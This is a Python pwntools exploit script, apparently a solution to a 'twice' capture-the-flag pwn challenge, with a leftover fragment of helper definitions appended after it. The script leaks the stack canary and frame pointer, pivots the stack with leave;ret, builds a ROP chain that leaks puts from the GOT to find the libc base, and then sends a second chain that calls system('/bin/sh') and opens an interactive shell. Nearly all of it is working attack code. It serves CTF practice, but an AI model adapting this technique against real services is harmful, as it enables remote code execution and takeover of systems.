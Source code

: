 ```python
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

p = process('twice')
#p = remote('node4.buuoj.cn',27969)
elf = ELF('twice')
libc = ELF('./libc-2.23.so')

def dbg():
	gdb.attach(p)
	pause()

pop_rdi_ret = 0x400923
puts_plt = elf.plt['puts']
puts = elf.sym['puts']
puts_got = elf.got['puts']
leave_ret=0x0400879
start = 0x0400630
# leak canary 1
pl = 'a'*0x59
p.recvuntil(">")
s(pl)
ru(pl)
canary = u64(p.recv(7).rjust(8,'\x00'))
ebp = u64(p.recv(6).ljust(8,'\x00'))
s_addr = ebp - 0x70
lg('canary',canary)
lg('s_addr',s_addr)
# write bss 2
p.recvuntil(">")
pl = p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(start)
pl = pl.ljust(0x58,'a')
pl += p64(canary)+p64(s_addr-8)+p64(leave_ret)
s(pl)
p.recvuntil('\n')
puts_addr = u64(p.recv(6).ljust(8,'\x00'))
lg('puts_addr',puts_addr)
#leak libc
libc_base = puts_addr - libc.sym["puts"]
system_addr=libc_base+libc.sym["system"]
binsh_addr=libc_base + libc.search("/bin/sh").next()
lg('libc_base',libc_base)

# agin
pl = 'a'*0x59
p.recvuntil(">")
s(pl)
ru(pl)
canary = u64(p.recv(7).rjust(8,'\x00'))
ebp = u64(p.recv(6).ljust(8,'\x00'))
s_addr = ebp - 0x70
#
pl = p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr)
pl = pl.ljust(0x58,'a')
pl += p64(canary)+p64(s_addr-8)+p64(leave_ret)
s(pl)
p.interactive()
```
```python
# one_gadget
from pwn import *
context.log_level = 'debug'

s       = lambda data               :p.send(data)
```